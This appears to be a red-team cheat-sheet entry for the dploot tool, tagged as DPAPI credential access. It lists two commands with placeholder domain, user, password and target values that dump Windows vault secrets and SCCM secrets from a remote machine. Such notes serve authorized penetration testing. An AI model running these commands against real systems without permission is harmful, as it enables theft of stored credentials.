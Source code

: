 # dploot

% dploot, dpapi

#plateform/linux  #target/remote  #cat/CREDENTIAL-ACCESS/DPAPI

## vault 
```bash
dploot -debug vaults -d <domain_fqdn> -u <user> -p '<password>' <targt_ip>
```

## sccm 
```bash
dploot -debug sccm -d <domain_fqdn> -u <user> -p '<password>' <targt_ip>
```